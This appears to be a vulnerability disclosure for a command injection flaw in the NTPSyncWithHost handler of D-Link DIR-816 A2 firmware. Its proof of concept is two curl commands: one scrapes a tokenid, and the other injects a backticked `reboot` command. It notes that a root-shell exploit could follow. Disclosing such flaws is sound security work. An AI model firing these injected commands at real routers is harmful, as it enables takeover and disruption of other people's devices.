 
# D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/NTPSyncWithHost/img/vuln1.png)

Directly pass in the parameters to execute the command

## Poc

First you need to get the tokenid

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Next, run the following poc, you can see that the router is restarted

```
curl -i -X POST http://192.168.0.1/goform/NTPSyncWithHost -d tokenid=xxxxx -d '`reboot`'
```

Finally, exp can be written to achieve the effect of obtaining a root shell
